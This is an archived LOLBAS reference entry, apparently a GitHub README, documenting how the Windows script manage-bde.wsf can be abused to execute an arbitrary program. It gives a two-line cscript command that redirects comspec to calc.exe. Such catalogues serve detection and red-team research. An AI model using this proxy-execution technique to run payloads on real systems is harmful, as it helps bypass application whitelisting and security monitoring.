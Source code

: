# UPDATE BOOKMARKS - PROJECT MOVED TO A DEDICATED PROJECT SITE. THIS SITE WILL NOT BE UPDATED ANYMORE, BUT WILL BE KEPT FOR HISTORICAL REASONS.
New site: https://github.com/LOLBAS-Project/LOLBAS
Web portal: https://lolbas-project.github.io/ 
## Manage-bde.wsf

* Functions: Execute

```
set comspec=C:\windows\system32\calc.exe   
cscript C:\windows\system32\manage-bde.wsf    
```

Acknowledgements:
* Jimmy - @bophops

Code sample:
* 

Resources:
* https://gist.github.com/bohops/735edb7494fe1bd1010d67823842b712
* https://twitter.com/bohops/status/980659399495741441

Full path:
```
c:\windows\system32\manage-bde.wsf
```

Notes:



 
